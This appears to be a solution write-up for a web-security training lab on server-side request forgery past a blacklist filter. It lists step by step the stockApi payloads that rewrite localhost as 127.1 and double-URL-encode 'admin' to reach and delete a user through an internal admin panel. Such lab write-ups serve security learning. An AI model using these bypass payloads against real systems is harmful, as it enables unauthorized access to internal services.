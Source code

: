 # SSRF with blacklist-based input filter

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

Note when you
ping 127.0.0.1 and localhost and 127.1 all are same

![screenshot](./images/lab3_ping_local_host.png)

### step1

go to stock check feature which fetches data from an internal system and intercept
send to repeater

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
send request respose =>200 ok

stockApi=http%3A%2F%2F127.0.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
send reuest response => 400 bad request => "External stock check blocked for security reasons"

remove _%3A8080_
stockApi=http%3A%2F%2F127.1%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D3
send request resposne => 404 Not found

remove _product%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1_
stockApi=http%3A%2F%2F127.1%2Fadmin
send request response => 400 bad request => "External stock check blocked for security reasons"

### step2

use extenstion burpsuite _hackvertor_
highlight _admin_ send to extenstion _hackvertor_ => _encode_ => _urlencode_all_
stockApi=http%3A%2F%2F127.1%2F<@urlencode_all>admin<@/urlencode_all>

now again _<@urlencode_all>admin<@/urlencode_all>_ send _hackvertor_ => _convert tags_
_<@urlencode_all>admin<@/urlencode_all>_ => _%61%64%6D%69%6E_
stockApi=http%3A%2F%2F127.1%2F%61%64%6D%69%6E

again _%61%64%6D%69%6E_ _hackvertor_ => _encode_ => _urlencode_all_
_%61%64%6D%69%6E_ => _<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>_
stockApi=http%3A%2F%2F127.1%2F<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>

now again _<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>_ send _hackvertor_ => _convert tags_
_%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45_ => _%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45_
stockApi=http%3A%2F%2F127.1%2F%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45
send request response => 200 ok

stockApi=http%3A%2F%2F127.1%2F%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45/delete?username=carlos
send request response => 302 found

lab solved :)
